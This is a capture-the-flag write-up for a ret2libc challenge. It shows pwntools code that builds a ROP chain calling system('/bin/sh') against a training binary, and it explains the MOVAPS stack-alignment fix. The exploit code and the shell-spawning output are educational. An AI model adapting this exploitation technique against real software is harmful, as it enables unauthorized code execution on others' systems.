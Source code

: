 # Mary Poppins strikes again

<p align="center">
<img src="./utils/roptastic_shell.png" alt="Challenge" width="500"/>
</p>

Connecting to the remote instance with `netcat` we are given some of the [source code](./utils/program.c) for the challenge. We are also given the goal of the challenge, and some options to interact with the program.

```
Your goal is to create a ROP chain that calls system("/bin/sh")
Use the menu options to lookup the address of system(),
and to add the "/bin/sh" string as an argument.

Google these terms for help:
- ret2libc

Good luck!

1. Fill buffer
2. Print stack frame
3. Verify ROP chain
4. Print challenge description
5. Print gadgets
6. Lookup symbol
7. Add string
8. [Quit]
>
```

The program for this challenge is similar to the earlier ones, but we have to spawn a shell instead of just setting popping values into registers. For this solve, we will utilize the options which prints the gadgets, writes a string to the binary, and looks up the address of a symbol in the binary (the last two weren't used in the previous challenges).


Our goal is similar to the `did someone say ret2win?` challenge, only that we want to call `system("/bin/sh")` instead of `win()`. To do this we need three things: the address of the `pop_rdi` gadget, the address of the string `/bin/sh` in the binary, and the address of `system`. The `pop_rdi` gadget we already know, and it is also printed to us when we choose option `5`. We don't know the address of the string `/bin/sh` in the binary, so we will add it ourselves using option `7`. The address of `system` we can look up using option `6`.
```python
from pwn import *

# Connect to remote instance
io = remote("pwn.tokle.dev", 1342)

# Receive all the output text from the program
io.recvuntil(b"Good luck!")

def get_gadgets():
    io.sendlineafter(b"> ", b"5")
    io.recvuntil(b"pop rdi; ret: ")
    pop_rdi = int(io.recvline().strip(), 16)
    io.recvuntil(b"pop rsi; ret: ")
    pop_rsi = int(io.recvline().strip(), 16)
    io.recvuntil(b"pop rdx; ret: ")
    pop_rdx = int(io.recvline().strip(), 16)
    return pop_rdi, pop_rsi, pop_rdx

def add_str(string):
    io.sendlineafter(b"> ", b"7")
    io.sendlineafter(b"String: ", string)
    io.recvuntil(b"String at: ")
    return int(io.recvline().strip(), 16)

def get_symbol_addr(symbol):
    io.sendlineafter(b"> ", b"6")
    io.sendlineafter(b"Symbol: ", symbol.encode())
    io.recvuntil(f"{symbol}: ".encode())
    return int(io.recvline().strip(), 16)

# Get address of gadgets
pop_rdi, pop_rsi, pop_rdx = get_gadgets()
log.success(f"Pop RDI @ {hex(pop_rdi)}")
log.success(f"Pop RSI @ {hex(pop_rsi)}")
log.success(f"Pop RDX @ {hex(pop_rdx)}")

# Add "/bin/sh" string
binsh = add_str(b"/bin/sh")
log.success(f"/bin/sh @ {hex(binsh)}")

# Get address of "system" function
system = get_symbol_addr("system")
log.success(f"system @ {hex(system)}")
```

As we have everything we need we can assemble our payload to get a shell! We know that the offset to the saved return address is 136 bytes. Inside `rdi` we need to put the address of `/bin/sh`, not the string itself! This is because the argument to the `system` function is the address where the string is located, not the string itself. Lastly, after we have set the `rdi` register to the address of `/bin/sh`, we call the `system` function.

```python
# ROP to get shell
payload = b"A"*136
payload += p64(pop_rdi) # "pop rdi; ret;" gadget
payload += p64(binsh)   # Address where "/bin/sh" string is stored
payload += p64(system)  # Address of "system" function
```

Sending and triggering the payload should then call `system("/bin/sh")` for us, and give us shell!
```python
# Send and trigger payload
io.sendlineafter(b"> ", b"1")
io.sendlineafter(b"Data: ", payload)
io.sendlineafter(b"> ", b"8")

io.interactive()
```


But it doesn't work... This is because of something called [The MOVAPS Issue](https://ropemporium.com/guide.html#common-pitfalls). TLDR; We need to put the call to system on a stack address ending in 0, not 8. Because we cannot reduce our payload with 8 bytes (we cannot remove the padding, because then we don't overwrite the return address as we want), we have to add 8 more bytes before we call system. The "standard" way to do this is to use another gadget: `ret;`. Luckily, this gadget is *everywhere* in binaries, so even though we are not given the explicit address of it in this challenge, we can still find it easily.

The first way to find the gadget is to add 1 to the address of our `pop_rdi` gadget. Because the `pop_rdi` gadget ends with a `ret` instruction (pop rdi; ret;), and the `pop rdi` gadget is only a single byte, if we add 1 we get only the `ret` part of that gadget.

Another way to find a `ret` gadget is by knowing that the original saved return address is a gadget with the operations `mov eax, 0; leave; ret;`. The `mov` instruction is 3 bytes in size, and the `leave` instruction is 1 byte in size. Therefore we know that a `ret` instruction is located at the address of the saved return address + 4 bytes.
The following full exploit script will use the first option, but both work equally good.

The full, and commented, exploit script can be found in [solve.py](./solve.py).

```console
$ python3 solve.py
[+] Opening connection to pwn.tokle.dev on port 1342: Done
[+] Pop RDI @ 0x4038db
[+] Pop RSI @ 0x4038dd
[+] Pop RDX @ 0x4038df
[+] /bin/sh @ 0x475480
[+] system @ 0x788dd6f07d70
[*] Switching to interactive mode
$ cat flag.txt
flag{ropping_your_way_to_flags}
```